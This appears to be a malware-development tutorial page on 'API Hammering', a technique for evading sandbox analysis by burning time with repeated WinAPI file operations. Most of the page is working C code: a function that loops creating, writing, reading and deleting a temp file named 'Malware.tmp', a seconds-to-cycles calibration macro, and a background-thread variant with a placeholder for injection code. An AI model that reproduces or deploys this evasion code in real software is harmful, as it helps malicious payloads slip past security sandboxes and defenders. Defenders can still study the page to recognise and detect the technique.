 # API Hammering

## Introduction

API Hammering is a sandbox bypass technique in which random WinAPI functions are called in order to delay the execution of a program.

### Functions to Utilize

API Hammering can utilize any WINAPI functions, it's important to get creative and not use ones that are commonly used. In this page, we will go over some common ones to set the stage.

* [CreateFileW](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew) - Used to create and open a file.
* [WriteFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile) - Used to write data to a file.
* [ReadFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) - Used to read data from a file.

<mark style="color:yellow;">**We want WinAPI function that have the ability to consume considerable processing time.**</mark>

## API Hammering Methodology

API Hammering gives us the ability to get creative, in this method, we'll create a file, write large amounts of data to it, and then read the file into a buffer. When the file is reopened, it is marked for deletion when the handle is closed.

The only parameter the function requires is `dwStress` which is the number of times to repeat the entire process.

<mark style="color:yellow;">**The function will continue opening, writing, reading, and deleting the file until dwStress is complete.**</mark>

We will create a temorary .tmp file in the `C:\Users\User\AppData\Local\Temp` folder. We will use  [GetTempPathW](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-gettemppathw) WinAPI function which is used to retrieve the path of the temp directory.

{% code fullWidth="true" %}
```c

// File name to be created
#define TMPFILE	L"Malware.tmp"

BOOL ApiHammering(DWORD dwStress) {

	WCHAR     szPath                  [MAX_PATH * 2],
              szTmpPath               [MAX_PATH];
	HANDLE    hRFile                  = INVALID_HANDLE_VALUE,
              hWFile                  = INVALID_HANDLE_VALUE;
	
	DWORD   dwNumberOfBytesRead       = NULL,
            dwNumberOfBytesWritten    = NULL;
	
	PBYTE   pRandBuffer               = NULL;
	SIZE_T  sBufferSize               = 0xFFFFF;	// 1048575 byte
	
	INT     Random                    = 0;

	// Getting the tmp folder path
	if (!GetTempPathW(MAX_PATH, szTmpPath)) {
		printf("[!] GetTempPathW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Constructing the file path 
	wsprintfW(szPath, L"%s%s", szTmpPath, TMPFILE);

	for (SIZE_T i = 0; i < dwStress; i++){

		// Creating the file in write mode
		if ((hWFile = CreateFileW(szPath, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_TEMPORARY, NULL)) == INVALID_HANDLE_VALUE) {
			printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Allocating a buffer and filling it with a random value
		pRandBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sBufferSize);
        srand(time(NULL));
		Random = rand() % 0xFF;
		memset(pRandBuffer, Random, sBufferSize);

		// Writing the random data into the file
		if (!WriteFile(hWFile, pRandBuffer, sBufferSize, &dwNumberOfBytesWritten, NULL) || dwNumberOfBytesWritten != sBufferSize) {
			printf("[!] WriteFile Failed With Error : %d \n", GetLastError());
			printf("[i] Written %d Bytes of %d \n", dwNumberOfBytesWritten, sBufferSize);
			return FALSE;
		}

		// Clearing the buffer & closing the handle of the file
		RtlZeroMemory(pRandBuffer, sBufferSize);
		CloseHandle(hWFile);

		// Opening the file in read mode & delete when closed
		if ((hRFile = CreateFileW(szPath, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_TEMPORARY | FILE_FLAG_DELETE_ON_CLOSE, NULL)) == INVALID_HANDLE_VALUE) {
			printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Reading the random data written before 	
		if (!ReadFile(hRFile, pRandBuffer, sBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != sBufferSize) {
			printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
			printf("[i] Read %d Bytes of %d \n", dwNumberOfBytesRead, sBufferSize);
			return FALSE;
		}

		// Clearing the buffer & freeing it
		RtlZeroMemory(pRandBuffer, sBufferSize);
		HeapFree(GetProcessHeap(), NULL, pRandBuffer);

		// Closing the handle of the file - deleting it
		CloseHandle(hRFile);
	}


	return TRUE;
}

```
{% endcode %}



## Delay Execution

To properly delay the execution, calculate how many cycles is sufficient with `GetTickCount64` to measure the time before and after the ApiHammering function is called.

```c
int main() {

	DWORD	T0	= NULL,
            T1	= NULL;

	T0 = GetTickCount64();

	if (!ApiHammering(1000)) {
		return -1;
	}

	T1 = GetTickCount64();

	printf(">>> ApiHammering(1000) Took : %d MilliSeconds To Complete \n", (DWORD)(T1 - T0));

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}
```

**Convert Seconds To Cycles**

The `SECTOSTRESS` macro below can be used to convert the number of seconds, `i`, to the number of cycles. Since 1000 loop cycles took 5.157 seconds, each one second will take 1000 / 5.157 = 194. The output of the macro should be used as a parameter for the `ApiHammering` function.

```c
#define SECTOSTRESS(i)( (int)i * 194 )
```

### D**elaying Execution Via API Hammering Code**

The code snippet below shows the main function using the previously mentioned technique.

```c
int main() {


  DWORD T0  = NULL,
        T1  = NULL;

  T0 = GetTickCount64();

  // Delay execution for '5' seconds worth of cycles
  if (!ApiHammering(SECTOSTRESS(5))) {
    return -1;
  }

  T1 = GetTickCount64();

  printf(">>> ApiHammering Delayed Execution For : %d \n", (DWORD)(T1 - T0));

  printf("[#] Press <Enter> To Quit ... ");
  getchar();

  return 0;
}

```

## API Hammering in a Thread

The ApiHammering function we created can be executed in a thread that runs in the background until the end of the main threads execution.

The main function shown below creates a new thread and calls the `ApiHammering` function with a value of `-1`.

```c
int main() {

	DWORD dwThreadId = NULL;


	if (!CreateThread(NULL, NULL, ApiHammering, -1, NULL, &dwThreadId)) {
		printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
		return -1;
	}

	printf("[+] Thread %d Was Created To Run ApiHammering In The Background\n", dwThreadId);


	/*
	
		injection code can be here

	*/


	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}
```

Passing **`-1`** as a value makes the thread loop over the process infinitely it will die when the main thread is finished executing.
